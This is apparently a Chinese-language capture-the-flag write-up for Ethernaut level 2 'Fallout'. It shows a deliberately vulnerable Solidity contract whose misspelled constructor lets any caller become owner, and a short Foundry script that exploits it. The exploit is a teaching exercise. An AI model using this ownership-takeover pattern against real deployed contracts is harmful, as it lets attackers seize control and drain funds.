 # Level 2 - Fallout
## 題目
[Fallout](https://ethernaut.openzeppelin.com/level/0x676e57FdBbd8e5fE1A7A3f4Bb1296dAC880aa639)

### 通關條件
獲得下面合約的所有權來完成這一關
可能會有用的資訊：Solidity, Remix IDE
### 合約內容
```solidity=
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Fallout {
    using SafeMath for uint256;

    mapping(address => uint256) allocations;
    address payable public owner;

    /* constructor */
    function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function allocate() public payable {
        allocations[msg.sender] = allocations[msg.sender].add(msg.value);
    }

    function sendAllocation(address payable allocator) public {
        require(allocations[allocator] > 0);
        allocator.transfer(allocations[allocator]);
    }

    function collectAllocations() public onlyOwner {
        msg.sender.transfer(address(this).balance);
    }

    function allocatorBalance(address allocator) public view returns (uint256) {
        return allocations[allocator];
    }
}
```
## 解題
這題的目標跟上一題是一樣的，取代合約的 onwer，那可以在第 14 行看到 `owner = msg.sender` 也就是說只要呼叫 `Fal1out()` 就可以取代 owner 了，攻擊合約如下：
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.6.0;

import "forge-std/Script.sol";
import "../src/Ethernaut Challenge/02_Fallout.sol";

contract ExploitScript is Script {
    Fallout level2 = Fallout(payable(your_challenge_address));

    function run() public {
        vm.startBroadcast();

        level2.Fal1out();

        vm.stopBroadcast();
    }
}
```
這一題主要是想考 `constructor()` 以及舊版 Solidity 的一些安全問題，但是在現在其實不太會碰到了，對於 `constructor()` 的用法以及歷史可以參考以下文章：
- [[中文] WTF Solidity极简入门: 11. 构造函数和修饰器](https://github.com/AmazingAng/WTF-Solidity/tree/main/11_Modifier)
- [[EN] Solidity by Example](https://solidity-by-example.org/constructor/)